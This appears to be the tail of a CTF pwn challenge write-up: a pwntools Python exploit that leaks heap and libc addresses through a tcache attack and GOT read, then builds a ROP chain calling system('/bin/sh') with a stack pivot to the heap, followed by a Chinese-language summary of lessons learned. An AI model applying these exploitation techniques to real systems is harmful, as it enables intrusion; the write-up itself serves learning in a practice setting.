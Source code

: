 ```python
Add(p64(0x602100), 0x6020a0) # 12  malloc 0x602100   fd->0x6020a0(items12)

List()# leak address 0x6020a0 point to heap address(item0)
for i in range(13):
  s.recvuntil("Price: ")
heap_leak = int(s.recvuntil("\n"))
heap_base = heap_leak - 0x1270-0x40
print "heap_leak =", hex(heap_leak)
print "heap_base =", hex(heap_base)

# libc leak
Edit(14, "X", elf.got.__isoc99_scanf) # mod

List() 
for i in range(13):
  s.recvuntil("Price: ")
scanf_addr  = int(s.recvuntil("\n"))
libc_base   = scanf_addr - libc.symbols['__isoc99_scanf']
system_addr = libc_base + libc.symbols['system']
binsh_addr  = libc_base + next(libc.search('/bin/sh'))
print "scanf_addr =", hex(scanf_addr)
print "libc_base  =", hex(libc_base)

pop_rdi_ret = 0x400f63 # pop rdi; ret; 
leave_ret   = 0x400e11 # leave; ret;

Add(p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr), 0)
gdb.attach(s)
# Stack pivot to heap
Sell(3, "b"*0x18+p64(3)+p64(0)*2+p64(heap_base + 0x17e0 - 8) + p64(leave_ret))

s.interactive()
```
# 总结
这道pwn题目，首先漏洞点很好找，由当时找到了sell里的栈溢出，但是没有想到如何泄露地址，如何利用；主要是没仔细发现edit中还有一个溢出😂，这次学到了两种泄露地址方法：
1. 通过溢出制造unsorted bin来泄露libc
2. 通过tcache attack，申请到bss段，结合题目泄露heap、libc
还有就是当栈溢出长度不够时，考虑将栈迁移到bss或者堆上，具体还要看程序有没有提供修改的功能，如此题程序提供了修改heap的功能，就可以将stack迁移到heap上。
总之收获还是挺多的！！
